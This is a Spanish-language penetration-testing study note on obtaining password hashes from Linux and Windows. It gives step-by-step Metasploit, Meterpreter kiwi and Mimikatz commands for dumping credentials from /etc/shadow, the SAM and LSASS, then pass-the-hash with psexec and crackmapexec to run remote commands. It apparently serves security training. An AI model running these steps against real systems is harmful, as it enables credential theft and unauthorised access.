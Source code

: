 # Password Hashes

Propietario: Adrian Gisbert Cabello

# Linux

- Todas las contraseñas encriptadas de los usuarios están alojadas en el directorio `/etc/shadow`

- El hash va a tener un prefix (con el símbolo del dolar) que significa que tipo de hash es

![Untitled](Password%20Hashes/Untitled.png)

- También podemos dumpear los hashes de las contraseñas si tenemos una sesión de meterpreter con metasploit:
    - `search hashdump` | `use post/linux/gather/hashdump`
    - En las opciones tendremos que poner	la sesión del meterpreter y le damos a `run`

# Windows

Dos directorios donde podemos encontrar password hashes son:

- `C:\Panther\Unattend.xml`
- `C:\Panther\Autounattend.xml`

Los hashes LM suelen venir en 2 hashes (HASH1:HASH2) mientras que los hashes NTLM suele venir en un hash codificado en MD4

En una consola meterpreter podemos buscar los archivos: `search -f Unattend.xml` o bien entrando el el directorio con `cd`, descargamos el archivo a nuestro equipo con `download` y lo visualizamos

![Untitled](Password%20Hashes/Untitled%201.png)

- En este caso está encodeado en base64 porque la opción de `Plain text` está en `false`.

Para dumpear hashes de contraseñas podemos usar `kiwi`, en una sesión de meterpreter (antes tenemos que migrar el proceso lsass) escribimos: `load kiwi`:

- El menú de ayuda: `?`
- Para ver todas las credenciales: `creds_all`
- Para ver todos los hashes de passwords: `lsa_dump_sam`
- En algunos casos podemos ve los passwords en texto plano: `lsa_dump_secrets`

También podemos usar `Mimikatz` por si son hashes difíciles:

- Hacemos un upload del archivo mimikatz.exe de nuestra máquina linux al equipo víctima (en este caso Win x64):
- `cd C:\\` (Nos vamos al directorio raíz)
- `mkdir Temp` (Creamos una carpeta temporal para poder trabajar)
- `cd Temp`
- `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe` (Directorio donde se encuentra el archivo en nuestra máquina Kali)
- `shell` (Abrimos una consola de comandos)
- `.\mimikatz.exe`
- Una vez estamos dentro de Mimikatz:
    - `lsadump::sam` (Nos da más información que `Kiwi`)
    - `lsadump::secrets`
    - `sekurlsa::logonpasswords` (Ver contraseñas en texto plano, si procede)

Para conectarnos mediante una sesión meterpreter con la técnica Pass-The-Hash Attack, y así pivotar a otro usuario sin tener credenciales en texto plano pero si en formato hash, abrimos metasploit y buscamos `search psexec`, y usamos el módulo `use exploit/windows/smb/psexec`

- `set SMBUser Administrator`
- `set SMBPass aadjrkv3fgdsjjkdbk584gd:e3cf5g89rtdsdfg5t5h5` (Password HASH)
- `set target Command` (Para ver todos los targets `set target`) podemos usar `set target Native \upload` para subir un payload

Si queremos conectarnos a través de crackmapexec con el password hash: `crackmapexec smb 192.168.X.X -u Administrator -H ¨HASH¨`

- Podemos ejecutar comandos con el parámetro -x: `crackmapexec smb 192.168.X.X -u Administrator -H ¨HASH¨` `-x ¨ipconfig¨`
